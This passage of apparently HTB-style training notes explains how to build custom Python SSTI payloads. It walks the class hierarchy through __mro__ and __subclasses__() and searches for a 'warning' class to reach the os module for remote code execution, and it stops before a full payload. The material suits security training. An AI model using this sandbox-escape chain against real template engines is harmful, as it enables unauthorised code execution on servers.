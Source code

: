 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Understanding Payload Creation with Python
1. The first step is to open up a Python environment and understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution. We can use the following function to do so:
```python
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

searchfunc('warning')
```
The reason we are searching for `warning` is because, this class imports Python's `sys` module, and from `sys`, we can reach the `os` module.
3. We will now attempt to reach the `import`